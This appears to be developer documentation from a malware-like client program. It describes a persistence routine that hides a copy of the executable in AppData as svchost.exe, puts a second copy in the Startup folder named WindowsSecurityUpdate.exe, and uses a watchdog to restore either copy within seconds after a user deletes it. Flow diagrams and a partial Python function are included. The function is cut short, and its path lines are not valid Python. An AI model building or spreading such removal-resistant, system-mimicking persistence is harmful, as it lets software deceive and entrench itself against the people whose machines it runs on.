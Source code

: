 
## 🔄 Auto-Restore Logic

### Scenario 1: Startup Copy Deleted
```
User deletes: WindowsSecurityUpdate.exe from Startup folder
       ↓
Watchdog detects (within 10 seconds)
       ↓
Restores from: C:\...\AppData\Local\...\svchost.exe
       ↓
✅ Startup copy restored automatically
```

### Scenario 2: AppData Original Deleted
```
User deletes: svchost.exe from AppData
       ↓
Watchdog detects (within 10 seconds)
       ↓
Restores from: WindowsSecurityUpdate.exe (Startup copy)
       ↓
Re-hides with attrib +h +s
       ↓
✅ AppData original restored automatically
```

### Scenario 3: Both Deleted
```
User deletes BOTH copies
       ↓
Watchdog detects AppData missing
       ↓
Tries to restore from Startup (missing)
       ↓
Falls back to current exe location (sys.executable)
       ↓
✅ At least one copy restored
```

---

## 💻 Code Implementation

### Function: `startup_folder_watchdog_persistence()`

**Location:** client.py, Lines 3428-3532

```python
def startup_folder_watchdog_persistence():
    """
    Deploy original .exe to AppData and create monitored duplicate in startup folder.
    - Original exe → AppData (hidden, protected location)
    - Startup copy → shell:startup (auto-recreated if deleted)
    - Background thread monitors and restores startup copy
    """
    # Only works with compiled .exe
    if not (hasattr(sys, 'frozen') and sys.frozen):
        return False
    
    # Define paths
    appdata_exe = %LOCALAPPDATA%\Microsoft\Windows\svchost.exe
    startup_exe = %APPDATA%\...\Startup\WindowsSecurityUpdate.exe
    
```
